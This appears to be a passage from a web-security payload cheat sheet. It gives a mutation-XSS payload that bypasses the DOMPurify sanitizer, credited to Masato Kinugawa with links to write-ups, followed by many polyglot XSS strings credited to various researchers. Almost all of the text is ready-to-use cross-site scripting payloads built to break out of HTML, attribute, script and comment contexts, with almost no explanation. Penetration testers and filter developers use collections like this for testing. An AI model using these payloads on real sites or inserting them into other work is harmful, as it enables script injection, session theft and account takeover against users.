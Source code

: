 Mutated XSS from Masato Kinugawa, used against DOMPurify component on Google Search. Technical blogposts available at https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/ and https://research.securitum.com/dompurify-bypass-using-mxss/.

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Polyglot XSS

Polyglot XSS - 0xsobky

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed

```javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

Polyglot XSS - Mathias Karlsson

```javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

Polyglot XSS - Rsnake

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Polyglot XSS - Daniel Miessler

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```
